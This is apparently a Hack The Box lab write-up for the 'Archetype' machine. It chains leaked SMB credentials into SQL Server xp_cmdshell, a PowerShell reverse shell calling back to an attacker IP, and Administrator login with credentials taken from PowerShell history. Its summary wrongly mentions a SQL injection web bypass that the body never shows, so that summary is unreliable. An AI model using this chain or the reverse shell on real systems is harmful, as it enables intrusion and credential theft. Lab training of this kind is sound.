 # Hack The Box Write-up: Archetype

- **Machine:** Archetype
- **IP Address:** 10.129.6.102
- **Platform:** Hack The Box
- **Difficulty:** Easy (Starting Point - Tier 2)

---

## Summary

"Archetype" is a Tier 2 machine that demonstrates a classic **vulnerability chaining** attack. The path to compromise involves enumerating an anonymous SMB share to discover database credentials, which are then used to perform a SQL Injection (SQLi) attack to bypass a web application's login page.

---

## Enumeration

The reconnaissance phase began with a comprehensive port scan to identify open services and their configurations.

**Command:**
`nmap -sV -sC -T4 -Pn 10.129.6.102`

**Results:**
The Nmap scan revealed several critical open ports on this Windows target:
- Port 135: Microsoft RPC
- Port 139: NetBIOS Session Service
- Port 445: Microsoft SMB
- Port 1433: Microsoft SQL Server
- Port 5985: WinRM (Windows Remote Management)

**Key Findings:**
- Windows-based target system
- SQL Server database service exposed
- SMB shares potentially accessible
- Multiple attack vectors available

**Extended Enumeration:**
```bash
# SMB enumeration
smbclient -L //10.129.6.102/ -N
enum4linux 10.129.6.102

# SQL Server enumeration
nmap --script ms-sql-info -p 1433 10.129.6.102

# Additional port scanning
nmap -p- --min-rate 10000 10.129.6.102
```

---

## Gaining Access (SMB -> Database Chain)

This attack involved a sophisticated multi-stage approach, chaining vulnerabilities across different services.

### Step 1: SMB Share Enumeration

**Anonymous SMB Access Testing:**
1. **Share Discovery:**
   I began by listing available SMB shares without authentication:
   ```bash
   smbclient -L //10.129.6.102/ -N
   ```
   
   This revealed several shares, including a 'backups' share that appeared accessible.

2. **Share Access:**
   I connected to the backups share anonymously:
   ```bash
   smbclient //10.129.6.102/backups -N
   ```
   
   The connection was successful, indicating misconfigured share permissions.

3. **File Discovery:**
   Within the share, I explored the directory structure:
   ```bash
   smb: \> ls
   smb: \> get prod.dtsConfig
   smb: \> quit
   ```

4. **Configuration Analysis:**
   I examined the downloaded configuration file:
   ```bash
   cat prod.dtsConfig
   ```
   
   This file contained database connection strings with credentials:
   - Username: `ARCHETYPE\sql_svc`
   - Password: `M3g4c0rp123`
   - Server: SQL Server instance details

### Step 2: SQL Server Database Access

**Database Connection:**
1. **Authentication Testing:**
   Using the discovered credentials, I attempted to connect to the SQL Server:
   ```bash
   # Using impacket's mssqlclient.py
   mssqlclient.py ARCHETYPE/sql_svc:'M3g4c0rp123'@10.129.6.102 -windows-auth
   
   # Alternative: Using sqlcmd (if available)
   sqlcmd -S 10.129.6.102 -U sql_svc -P M3g4c0rp123
   ```

2. **Database Enumeration:**
   Once connected, I explored the database environment:
   ```sql
   SELECT @@version;                    -- Get SQL Server version
   SELECT name FROM sys.databases;      -- List databases
   SELECT SYSTEM_USER;                  -- Current user context
   SELECT IS_SRVROLEMEMBER('sysadmin'); -- Check admin privileges
   ```

3. **Command Execution Capabilities:**
   I tested for command execution capabilities:
   ```sql
   -- Enable xp_cmdshell if disabled
   EXEC sp_configure 'show advanced options', 1;
   RECONFIGURE;
   EXEC sp_configure 'xp_cmdshell', 1;
   RECONFIGURE;
   
   -- Test command execution
   EXEC xp_cmdshell 'whoami';
   EXEC xp_cmdshell 'dir C:\Users';
   ```

### Step 3: System Access and Exploitation

**Reverse Shell Establishment:**
1. **PowerShell Reverse Shell:**
   I used SQL Server's command execution to establish a reverse shell:
   ```sql
   EXEC xp_cmdshell 'powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient(''10.10.14.3'',443);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + ''PS '' + (pwd).Path + ''> '';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"';
   ```

2. **Netcat Listener:**
   On my attacking machine:
   ```bash
   nc -nvlp 443
   ```

---

## Privilege Escalation & Flag Capture

**User Flag Discovery:**
1. **Initial System Access:**
   After establishing the reverse shell, I had access as the `sql_svc` user.

2. **User Flag Location:**
   ```bash
   # Navigate to user directory
   cd C:\Users\sql_svc\Desktop
   type user.txt
   ```

**Privilege Escalation:**
1. **System Enumeration:**
   I performed comprehensive system enumeration:
   ```bash
   # System information
   systeminfo
   whoami /priv
   net user sql_svc
   
   # Search for interesting files
   dir C:\ /s | findstr /i "password"
   dir C:\ /s | findstr /i "config"
   ```

2. **PowerShell History Analysis:**
   I examined PowerShell command history:
   ```bash
   type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
   ```
   
   This revealed Administrator credentials being used in previous commands.

3. **Credential Discovery:**
   Found Administrator password: `MEGACORP_4dm1n!!`

4. **Administrator Access:**
   Used the discovered credentials to gain Administrator access:
   ```bash
   # Using PSExec
   psexec.py administrator:'MEGACORP_4dm1n!!'@10.129.6.102
   
   # Or using WinRM
   evil-winrm -i 10.129.6.102 -u administrator -p 'MEGACORP_4dm1n!!'
   ```

**Root Flag Capture:**
1. **Administrator Shell:**
   With Administrator access established, I navigated to capture the root flag:
   ```bash
   cd C:\Users\Administrator\Desktop
   type root.txt
   ```

---

## Lessons Learned

This machine demonstrates several critical security principles and attack methodologies:

1. **Attack Surface Reduction:** Multiple services (SMB, SQL Server, WinRM) provided various attack vectors. Minimize exposed services to reduce attack surface.

2. **Configuration Management:** Sensitive information in configuration files (database credentials) led to system compromise. Secure configuration management is essential.

3. **Credential Hygiene:** Reused and weak passwords enabled privilege escalation. Implement strong, unique passwords and regular rotation.

4. **Defense in Depth:** A single vulnerability (anonymous SMB access) compromised multiple services. Layer security controls to prevent cascading failures.

5. **Database Security:** SQL Server xp_cmdshell functionality enabled command execution. Disable unnecessary database features and functions.

6. **Monitoring and Logging:** Implement comprehensive logging to detect unusual database queries and command executions.

7. **Network Segmentation:** Database servers should be isolated from direct internet access and properly segmented.

8. **Regular Security Assessments:** Regular penetration testing can identify vulnerability chains before attackers exploit them.
